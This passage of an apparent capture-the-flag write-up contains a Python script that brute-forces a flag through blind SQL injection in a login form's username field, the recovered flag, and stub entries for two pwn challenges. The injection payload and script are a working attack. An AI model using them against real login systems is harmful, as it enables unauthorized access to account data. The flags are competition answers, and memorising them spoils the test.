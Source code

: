 ```python
# ...
flag = list('sh0uld_i_us3_nosql_n3xt_t1m3_0x3f3f3f')

caps = []
def gen_cap(s, i=0):
    global caps
    if i == len(s):
        caps.append(''.join(s))
    else:
        gen_cap(s, i + 1)
        if 'a' <= s[i] <= 'z':
            s[i] = s[i].upper()
            gen_cap(s, i + 1)
            s[i] = s[i].lower()

gen_cap(flag)

for x in tqdm(caps):
        cur_str = 'HCMUS-CTF{' + x + '}'
        req = "admin' AND 1=(SELECT 1 FROM account WHERE BINARY(password) = BINARY('" + cur_str + "')) -- '"
        r = requests.post('http://159.65.13.76:1340', data={'username': req})

        soup = BeautifulSoup(r.text, 'html.parser')
        if len(soup.find_all('h1', {'class': 'error-login'})) == 0:
            final_str = cur_str
            print(final_str)
            break
```

**==>** `HCMUS-CTF{Sh0uld_I_Us3_NoSQL_N3xt_T1m3_0x3f3f3f}` **<==**

## Pwn

### TellMe (50pts)

```
Hey! I think you should log in to this portal =D

nc 159.65.13.76 33100

File: tellme.c
```

Just input the name and password in the file.

**==>** `` **<==**

### Store (150pts)

```
My store is having a special event, called "Guess the right price". Do you want to give a try?

nc 159.65.13.76 33101

File: store
```
